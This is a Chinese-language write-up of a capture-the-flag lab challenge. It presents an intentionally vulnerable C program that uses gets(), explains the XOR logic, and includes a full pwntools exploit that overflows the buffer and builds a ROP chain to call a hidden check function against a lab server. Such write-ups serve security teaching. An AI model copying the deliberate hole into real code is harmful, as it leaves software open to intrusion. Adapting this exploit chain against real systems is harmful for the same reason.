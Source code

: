 # Simple PWN 0x33(2023 Lab - ROP_RW)
## Background
ROP chain
## Source code
:::spoiler Source Code
```cpp
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>

char flag[0x10];
long secret;
char empty_buf[0x30];

void check(char *input)
{
	char pass[0x10];
	char output[0x10];
	for (int i = 0; i < 2; ++i)
	{
		((long *)pass)[i] = ((long *)input)[i] ^ secret;
	}
	if (strcmp(pass, "kyoumokawaii") == 0)
	{
		for (int i = 0; i < 2; ++i)
			((long *)output)[i] = ((long *)flag)[i] ^ ((long *)pass)[i];
	}
	printf("flag = %s\n", output);
}

int main(void)
{
	setvbuf(stdin, 0, _IONBF, 0);
	setvbuf(stdout, 0, _IONBF, 0);
	int fd = 0;
	char buf[0x10];
	fd = open("/home/chal/flag.txt", O_RDONLY);
	read(fd, flag, 0x10);
	close(fd);

	fd = open("/dev/urandom", O_RDONLY);
	read(fd, &secret, sizeof(secret));
	for (int i = 0; i < 2; ++i)
		((long *)flag)[i] = ((long *)flag)[i] ^ secret;

	printf("secret = %lx\n", secret);
	printf("> ");
	gets(buf);

	return 0;
}

```
:::
## Recon
先看這個程式的行為，在main當中，他會打開flag.txt和urandom這兩個file，然後做兩者的XOR，並且回傳urandom的內容給我們，並且有BOF的漏洞存在
:::info
flag和secret這兩個變數都是global variable
:::
而check這個function的功能是我們可以輸入一個input，他會和secret做XOR，若結果等於==kyoumokawaii==就把前面加密過的flag再跟`kyoumokawaii`做XOR並回傳給我們

思路很簡單:
雖然整隻程式都沒有呼叫到check function，但如果我們拿到secret，又可以進到check，是否可以做一些操作拿到flag
一開始一定會做的事情是把flag加密
$$
cipher= flag \oplus secret\\
$$
如果可以進到check function
$$
input\leftarrow kyoumokawaii\oplus secret
$$
$$
output\leftarrow cipher\oplus kyoumokawaii=flag\oplus secret\oplus kyoumokawaii
$$
$$
flag = output\oplus secret\oplus kyoumokawaii
$$
此時`output`, `secret`都已知，我們反推出flag為何，但重點是要怎麼呼叫到check function?==ROP chain + BOF==

1. 先利用該隻binary的gadget蓋成我們需要的chain，並且隨便找一個區間是不太會寫入的bss section address
    ```
    check_fn_addr = 0x4017ba
    bss_section = 0x4c7f00
    pop_rdx_rbx_ret = 0x0000000000485e8b
    mov_qword_ptr_rdi_rdx_ret = 0x00000000004337e3
    pop_rdi_ret = 0x00000000004020af
    ...
    rop_chain = flat(
    pop_rdi_ret,        bss_section,
    pop_rdx_rbx_ret,    input_1,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section + 0x8,
    pop_rdx_rbx_ret,    input_2,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section,
    check_fn_addr
    )
    ```
2. 等到跳到check function後就可以開始接return output，並按照上面的公式回推flag
## Exploit - ROP + BOF
```python
from pwn import *
from Crypto.Util.number import bytes_to_long, long_to_bytes

# r = process('./chal')
r = remote('10.113.184.121', 10051)
context.arch = 'amd64'

r.recvuntil(b'secret = ')
secret = int(r.recvline().strip().decode(), 16)
log.info(f'secret = {hex(secret)}')

check_fn_addr = 0x4017ba
bss_section = 0x4c7f00
pop_rdx_rbx_ret = 0x0000000000485e8b
mov_qword_ptr_rdi_rdx_ret = 0x00000000004337e3
pop_rdi_ret = 0x00000000004020af

input_1 = u64(b'kyoumoka') ^ secret
input_2 = u64(b'waii\x00\x00\x00\x00') ^ secret
log.info(f'input_1 = {hex(input_1)}, input_2 = {hex(input_2)}')

rop_chain = flat(
    pop_rdi_ret,        bss_section,
    pop_rdx_rbx_ret,    input_1,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section + 0x8,
    pop_rdx_rbx_ret,    input_2,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section,
    check_fn_addr
)
# raw_input()
r.sendlineafter(b'> ', b'a' * 40 + rop_chain)
r.recvuntil(b'flag = ')
output = r.recvline().strip()
log.info(f'output = {output}')
log.info(f'Part 1 = {hex(u64(output[0:8]))}, Part 2 = {hex(u64(output[8:16]))}')
flag_1 = p64(u64(output[0:8]) ^ input_1)
flag_2 = p64(u64(output[8:16]) ^ input_2)
log.info(f'flag = {(flag_1 + flag_2).strip().decode()}')

r.interactive()
```